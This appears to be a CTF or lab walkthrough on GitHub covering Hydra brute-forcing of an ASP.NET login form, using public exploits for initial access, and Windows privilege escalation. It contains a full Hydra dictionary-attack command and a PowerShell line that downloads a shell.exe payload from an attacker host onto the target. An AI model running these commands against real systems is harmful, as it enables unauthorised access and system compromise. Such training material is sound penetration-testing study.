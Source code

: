 # Using Hydra to brute-force a login
Hydra is a parallelized, fast and flexible login cracker. If you don't have Hydra installed or need a Linux machine to use it, you can deploy a powerful Kali Linux
machine and control it in your browser!

Brute-forcing can be trying every combination of a password. Dictionary-attack's are also a type of brute-forcing, where we iterating through a wordlist to obtain 
the password.

```sh
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
```

E.g. in our case:
```sh
hydra -v -l admin -P /usr/share/wordlists/rockyou.txt 10.10.76.78 http-post-form "/Account/login.aspx:__VIEWSTATE=%2BzSkE5rKklYx2evyff1oZJyuSWT7%2FP%2BrwCqOuY9eQFnN3I9b9H%2FemK0b4edjD%2BX4D0kYN6MJXUIltXwXt0PReeyBxoseUQg%2BlNpW6CHIGWNzl%2FGSvdwSZX179PJ%2FI3%2F64LNM7KzKj9sc4BMO83WdCE0KH%2FPjXAKd4RAQ7poy1tOiO7cd&__EVENTVALIDATION=8UPWUPAn6s7hJvO0Pl8kCCO3NAmIgs7nlpsgIlY%2FBUKl7fwtvPmUalPJ5PygYkVuz1H356PzRXwi%2FHQ3z8iJpgXHs8%2BloBQ4qlIePP6FdcvcR2qoLptuS0C5xNkNhrzvN5IJshWQx%2BF3kjK4PfMhuSyiPjbKZA2aFsYrqvz5b2BHveGR&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
```

Hydra really does have lots of functionality, and there are many "modules" available (an example of a module would be the http-post-form that we used above).
However, this tool is not only good for brute-forcing HTTP forms, but other protocols such as FTP, SSH, SMTP, SMB and more. 

Below is a mini cheatsheet:
![image](https://github.com/vivekprm/hackers-manual/assets/2403660/f462de90-f397-47e6-a840-54cf890fa28a)

# Compromise the machine
In this task, you will identify and execute a public exploit (from [exploit-db.com](http://www.exploit-db.com/)) to get initial access on this Windows machine!
Exploit-Database is a CVE (common vulnerability and exposures) archive of public exploits and corresponding vulnerable software, developed for the use of penetration 
testers and vulnerability researches. It is owned by Offensive Security (who are responsible for OSCP and Kali)

# Windows Privilege Escalation
First we will pivot from netcat to a meterpreter session and use this to enumerate the machine to identify potential vulnerabilities. We will then use this gathered 
information to exploit the system and become the Administrator.

```ps
powershell "Invoke-WebRequest -Uri 'http://10.10.134.187:8000/shell.exe' -OutFile 'C:\windows\system32\inetsrv\shell.exe'"
```

You can run metasploit commands such as sysinfo to get detailed information about the Windows system. Then feed this information into the 
[windows-exploit-suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) script and quickly identify any obvious vulnerabilities.
